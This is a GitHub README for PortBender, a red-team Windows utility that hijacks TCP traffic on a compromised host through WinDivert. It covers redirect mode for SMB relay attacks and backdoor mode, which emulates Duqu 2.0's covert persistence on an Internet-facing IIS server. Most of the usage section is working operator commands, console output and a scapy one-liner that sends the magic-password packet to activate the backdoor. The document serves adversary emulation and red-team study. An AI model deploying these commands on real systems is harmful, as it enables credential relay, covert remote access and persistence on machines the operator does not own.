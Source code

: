 # PortBender

## Overview

PortBender a PE adaptation of the original PortBender created by Praetorian Inc for Cobalt Strike C2 [1]. It is a TCP port redirection utility that allows a red team operator to redirect inbound traffic destined for one TCP port (e.g., 445/TCP) to another TCP port (e.g., 8445/TCP). The tool also allows operators to simulate a backdoor/persistence mechanism leveraged within the "PortServ.sys" capability used by the Duqu 2.0 threat actor. 

##  Design

PortBender leverages the WinDivert library to intercept network traffic using the Windows Filtering Platform (WFP). The design of PortBender is heavily influenced by the DivertTCPConn utility [2] which also leverages the WinDivert library [3].

```
                              +-----------------+
                              |   PortBender    |
                     +------->|                 |--------+
                     |        |  WinDivert.dll  |        |
                     |        +-----------------+        |
                     |                                   | (3) re-injected
                     | (2a) matching packet              |     packet
                     |                                   |
                     |                                   |
 [user mode]         |                                   |
 ....................|...................................|...................
 [kernel mode]       |                                   |
                     |                                   |
                     |                                   |
              +---------------+                          +----------------->
  (1) packet  |               | (2b) non-matching packet
 ------------>| WinDivert.sys |-------------------------------------------->
              |               |
              +---------------+
```

## Usage

PortBender has two modes of operation. The first is "redirector mode," and the second is "backdoor mode." In "redirector mode," any connection to a targeted destination port (e.g., 445/TCP) is redirected to an alternative port (e.g., 8445/TCP). In "backdoor mode," we only redirect traffic if an attacker sends a specially formatted TCP packet to a target port (e.g., 443/TCP). PortBender then adds that client IP address to a list of backdoor clients and redirects all traffic to that target port to an alternative port (e.g., 3389/TCP). An operator can leverage this mechanism to emulate the persistence technique used by the Duqu 2.0 threat actor when compromising Kaspersky.

To execute PortBender we must first upload the WinDivert32.sys or WinDivert64.sys binary and WinDivert.dll to the target host depending on the operating system architecture. The help menu for PortBender with the example usage is shown below:

```console
C:\> PortBender.exe
Redirect Usage: PortBender redirect SrcPort DstPort
Backdoor Usage: PortBender backdoor SrcPort DstPort password
Example:
        PortBender redirect 445 8445
        PortBender backdoor 443 3389 portbender.antihacker
```

## Example Usage

### Redirect mode

For example, we may wish to execute PortBender in redirector mode to perform an SMB relay attack from a compromised Windows system.  To facilitate this, we can instruct PortBender to redirect all traffic to 445/TCP to an alternative port 8445/TCP running an attacker SMB service. In this example, we run the command "PortBender redirect 445 8445" to accomplish this.

```console
C:\> PortBender.exe redirect 445 8445
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
New connection from 10.10.10.11:54646 to 10.10.10.10:445
```

### Backdoor mode

In this example, we want to deploy the covert persistence mechanism on a compromised Internet-facing IIS webserver. Here we run the "PortBender backdoor 443 3389 portbender.antihacker" to instruct the backdoor service to redirect any connections to 443/TCP to 3389/TCP on the compromised host from any connected IP address by providing a crafted TCP request with the payload "portbender.antihacker".

```console
C:\> PortBender.exe backdoor 443 3389 portbender.antihacker
 _______                        __      _______                             __
/       \                      /  |    /       \                           /  |
$$$$$$$  | ______    ______   _$$ |_   $$$$$$$  |  ______   _______    ____$$ |  ______    ______
$$ |__$$ |/      \  /      \ / $$   |  $$ |__$$ | /      \ /       \  /    $$ | /      \  /      \
$$    $$//$$$$$$  |/$$$$$$  |$$$$$$/   $$    $$< /$$$$$$  |$$$$$$$  |/$$$$$$$ |/$$$$$$  |/$$$$$$  |
$$$$$$$/ $$ |  $$ |$$ |  $$/   $$ | __ $$$$$$$  |$$    $$ |$$ |  $$ |$$ |  $$ |$$    $$ |$$ |  $$/
$$ |     $$ \__$$ |$$ |        $$ |/  |$$ |__$$ |$$$$$$$$/ $$ |  $$ |$$ \__$$ |$$$$$$$$/ $$ |
$$ |     $$    $$/ $$ |        $$  $$/ $$    $$/ $$       |$$ |  $$ |$$    $$ |$$       |$$ |
$$/       $$$$$$/  $$/          $$$$/  $$$$$$$/   $$$$$$$/ $$/   $$/  $$$$$$$/  $$$$$$$/ $$/

Initializing PortBender in backdoor mode
Configuring redirection of connections targeting 443/TCP to 3389/TCP
Client 10.10.10.11 connected to the server
New connection from 10.10.10.11:51234 to 10.10.10.10:443
```

To connect to or disconnect from the backdoor server, we can send the following TCP request using scapy

```console
$ sudo scapy
>>> send(IP(dst="10.10.10.10") / TCP(sport=51337,dport=443,flags="SR",seq=1000) / (bytes(b"portbender.antihacker")))
```

## Acknowledgements

* Praetorian for his work on the original PortBender [1]
* Arno0x0x for his work on DivertTCPConn [2]
* Basil00 for his work on WinDivert [3]

## References

[1] https://github.com/praetorian-inc/PortBender/tree/main \
[2] https://github.com/Arno0x/DivertTCPconn \
[3] https://github.com/basil00/Divert \